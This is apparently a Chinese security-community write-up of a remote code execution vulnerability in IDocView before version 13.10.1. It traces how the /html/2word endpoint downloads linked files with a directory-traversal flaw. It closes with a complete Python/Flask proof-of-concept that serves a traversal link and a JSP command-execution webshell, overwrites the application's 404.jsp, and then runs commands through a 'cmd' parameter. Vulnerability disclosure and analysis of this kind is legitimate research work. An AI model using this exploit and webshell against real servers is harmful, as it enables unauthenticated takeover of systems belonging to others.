






# 奇安信攻防社区-IDocView 前台远程代码执行漏洞分析

### IDocView 前台远程代码执行漏洞分析

IDocView 前台远程代码执行漏洞分析细节


昨天注意到一个 IDocView 系统的漏洞被披露了，发现是几个月之前审计过的漏洞，这里和师傅们分享一下当时的漏洞分析记录。

## 影响范围

iDocView < 13.10.1\_20231115

## 漏洞原理

漏洞原理大概就是使用未过滤的接口进行远程文件下载，会对传入的 url 进行下载，并且会解析 url 对应源码标签中的链接标签并且进行下载，而标签链接解析下载的过程中存在路径过滤缺陷导致任意文件上传。

## 过滤检查

IDocView 通过 Tomcat+Spring-Mvc 布置在 Windows 中，请求接口过滤通过继承于 org.springframework.web.servlet.handler.HandlerInterceptorAdapter 的 com.idocv.docview.interceptor.ViewInterceptor 进行定义，

com.idocv.docview.interceptor.ViewInterceptor#preHandle 是任何请求都会调用的过滤函数，主要会对文件预览、文件上传、文件下载功能接口进行身份验证。

且 com.idocv.docview.interceptor.ViewInterceptor#thdViewCheckSwitch=false 不会进行 upload 和 download 接口进行身份验证。



## 漏洞入口

/html/2word对应的入口函数为com.idocv.docview.controller.HtmlController#toWord


函数大致流程如下：

1.  计算 url 的 md5 值作为子目录名
2.  判断子目录是否存在，不存在则根据 url 链接下载资源
3.  判断是否存在文件 md5Url + ".docx"是否存在
4.  不存在则通过 pandoc.exe 生成 md5Url + ".docx"文件
5.  返回 md5Url + ".docx"文件

其中关键函数为下载资源的 com.idocv.docview.util.GrabWebPageUtil#downloadHtml


传入 url 到 downloadHtml 函数后首先是会对 getWebPage 进行文件下载

（函数较长所以分几个部分截图了）

首先是进行一些请求的 header 设置



下面会下载 url 文件源码内容后进行一些格式解析处理后写入到 url 链接中指定的文件名中



看到这里之前审计的时候发现有 asp、aspx、php 这些可能为 webshell 格式的过滤而没有过滤 jsp 后缀。传入第二个参数中的 outputDir 指定了目录，而这个目录并不能被我们直接通过 url 指定；同时下载的文件名在第三个参数指定为 index.html，所以下载文件的位置并不能给我们指定。



问题并不是出在第一次执行的 getWebPage

## 远程文件下载

com.idocv.docview.util.GrabWebPageUtil#getWebPage(java.net.URL, java.io.File, java.lang.String)

在第一次下载 url 内容的时候并不能进行利用，但是在下面再次调用了 getWebPage 函数



这里的双参数和三参数的 getWebPage 是一样的，双参数将最后一个保存文件名进行指定，如果第三个参数未指定，则会根据 url 获得最后一个/之后的字符串作为文件名

```Java
public static void getWebPage(URL obj, File outputDir) {
   getWebPage(obj, outputDir, (String)null);
}
```

```Java
String path = obj.getPath();
String filename = path.substring(path.lastIndexOf(47) + 1);
if (filename.equals("/") || filename.equals("")) {
   filename = "default.html";
}

System.out.println(filename);
if (StringUtils.isNotBlank(fileName)) {
   filename = fileName;
}
```

而之后在这个 For 循环中的链接是源自于第一次从链接中下载的页面源码，并且从中解析出 img、link、script 中的指定加载的远程连接文件，且解析后的链接会加入到 GrabUtility.*filesToGrab 中。*

录入访问链接[http://host:port/links.html返回的内容为：](http://host:port/links.html%E8%BF%94%E5%9B%9E%E7%9A%84%E5%86%85%E5%AE%B9%E4%B8%BA%EF%BC%9A)

```Java

```

那么 1.png 图片就会下载于 md5 为名的子目录下：


## Poc 构建

到这里攻击流程其实就已经可以进行 webshell 文件上传了：

1.  web 服务器里面存放一个 links.html 文件写入带着目录穿越路径的 url 链接：
    
    ```Java
    <link href="http://127.0.0.1:5050/..\..\..\..\docview\\WEB-INF\\views\\404.jsp">
    ```
    
2.  访问`/docview/html/2word`传入 url=[http://server-host/links.html](http://server-host/links.html)
    
3.  受害服务器下载 links.html 文件并且解析出 link 标签的下载文件路径`..\..\..\..\docview\\WEB-INF\\views\\404.jsp`并且将文件名通过目录拼接的方式保存到本地
    
4.  web 服务器里面定义路由，当访问`..\..\..\..\docview\\WEB-INF\\views\\404.jsp`路径的时候，返回一个 webshell 文件
    
5.  最后访问一个任意 IdocView 不存在的路由就会加载覆盖后的 404.jspwebshell 文件
    

```Java
import random
import threading
import time
import requests
from flask import Flask, request

app = Flask(__name__)

raw_404_page="404 Page Text"
jsp_webshell = """
<!-- request with Parameter 'cmd'-->
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<%=output %>"""

@app.route('/<path:path>')
def serve_content(path):
    if "jsp" in request.url:
        return raw_404_page + jsp_webshell
    elif "links" in request.url:
        return  f"""<link href="http://127.0.0.1:5050/..\\..\\..\\..\\docview\\WEB-INF\\views\\404.jsp">"""
    else:
        return 'who are you???'

def exp(host):
    time.sleep(5)
    url = host + '/html/2word'
    r = requests.post(url,
                      data={
                          "url": f"http://127.0.0.1:5050/links.html_{random.Random().randint(0, 1000000)}"
                      })
    print(r.status_code)
    print(r.text)
    requests.get(host+"/xxx?cmd=calc")

if __name__ == '__main__':
    threading.Thread(target=exp,args=("http://192.168.92.1:8080/docview",)).start()
    app.run(port=5050,debug=True,host='0.0.0.0')
```



这是执行命令前访问/xxx?cmd=whoami 的结果


执行脚本后 404 页面变化执行命令输出回显


